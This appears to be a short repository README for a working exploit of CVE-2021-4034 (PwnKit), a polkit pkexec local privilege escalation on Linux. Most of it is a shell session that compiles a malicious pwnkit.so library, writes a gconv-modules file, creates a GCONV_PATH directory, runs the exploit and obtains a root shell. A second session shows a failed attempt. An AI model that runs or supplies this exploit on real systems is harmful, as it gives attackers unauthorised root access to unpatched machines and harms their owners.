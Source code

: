 # CVE-2021-4034

### One day for the polkit privilege escalation exploit

## exploit
```shell
test@ubuntu:~/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
test@ubuntu:~/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# exit
```

## Failed 
```shell
test@ubuntu:~/CVE-2021-4034$ ./cve-2021-4034
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
test@ubuntu:~/CVE-2021-4034$
```
